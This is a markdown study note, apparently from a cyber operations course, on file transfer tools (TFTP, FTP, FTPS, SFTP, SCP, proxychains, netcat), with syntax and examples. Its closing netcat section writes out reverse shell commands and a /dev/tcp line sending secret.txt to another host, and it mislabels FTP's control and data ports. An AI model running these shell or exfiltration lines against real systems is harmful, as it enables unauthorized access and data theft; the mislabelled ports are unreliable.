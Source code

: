 # File Transfer Methods

- TFTP
- FTP
  - Active
  - Passive
- FTPS
- SFTP
- SCP
- NETCAT

## TFTP
- RC 1350 Rev2
- Uses UDP 69
- Insecure
- Simple with limited functionality

## [FTP](https://ss64.com/bash/ftp.html)
- RC 959
- TCP 20 (control), TCP 21 (data)
- requires login, but login information is plaintext
- creates a shell on the FTP host which allows you to traverse directories

Note: if you see a message `500 Illegal PORT command` try switching from active to passive with the command `PASV`

### Active (Default)
Unsafe because FTP server initiates communication
![alt](https://git.cybbh.space/net/public/raw/master/modules/networking/slides-v4/images/ftp_active.png)


### Passive
Designed to fix the issues with Active FTP
![alt](https://git.cybbh.space/net/public/raw/master/modules/networking/slides-v4/images/ftp_passive.png)

## FTPS
- Adds encryption (SSL/TLS) to FTP
- For connections on TCP 20/21 encryption is optional
- For connections on TCP 989/990 encryption is mandatory

## SFTP
- TCP 22
- Adds FTP like features to SSH

## [SCP](https://ss64.com/bash/scp.html)
- TCP 22
- Allows simple file transfer (think TFTP) via SSH

### Syntax

```
scp [-p <alternate port>] <file to grab> <where to send>
```

Options:
- `-v` verbose mode
- `-P` alternate port
- `-r` recursively copy directory
- `-3` 3-way copy (instead of copying directly between 2 hosts, the file is downloaded to local host then sent from local host)
  - Remote host 1 -> Localhost
  - Localhost -> Remote host 2

### Examples
```
scp /home/scpuser/myfile.txt student@10.10.10.10:/home/client/
```
 sends file from local machine to remote client

```
scp student@10.10.10.10:/home/client/myfile.txt .
```
grabs file from remote client to present working directory

```
scp student@10.10.10.10:/home/client/myfile.txt admin@10.10.11.0:/user/admin/stuff
```
from `10.10.10.10` `myfile.txt` is sent directly to `10.10.11.0`

`10.10.10.10` -> `10.10.11.0`

```
scp -3 student@10.10.10.10:/home/client/myfile.txt admin@10.10.11.0:/user/admin/stuff
```
grabs file from `10.10.10.10` downloads it to local machine, then from the local machine it sends the file to `10.10.11.0`

`10.10.10.10` -> localhost
localhost -> `10.10.11.0`

```
proxychains scp student@localhost:secretstuff.txt .
proxychains scp secretstuff.txt student@localhost:
```
Use proxychains to scp over a port forward


## NETCAT
```
nc -lvp 9001 < file.txt
```
Sends a file

```
nc 172.16.82.106 9001 > newfile.txt
```
Receives a file

```
mknod mypipe p
nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe
```
Setup a relay

`mknod mypipe p` creates a "named pipe" which stores the data in volatile memory

### Open a Reverse Shell
```
nc -lvp 9999
```
Open listening port on host machine

```
nc -c /bin/bash 10.10.0.40 9999
nc -e /bin/bash 10.10.0.40 9999
/bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1
```
Opening shell on remote machine
## /Dev/TCP

```
/Dev/TCP/<IP Address>/<Port>
```

```
cat secret.txt > /dev/tcp/10.10.0.40/1111
```
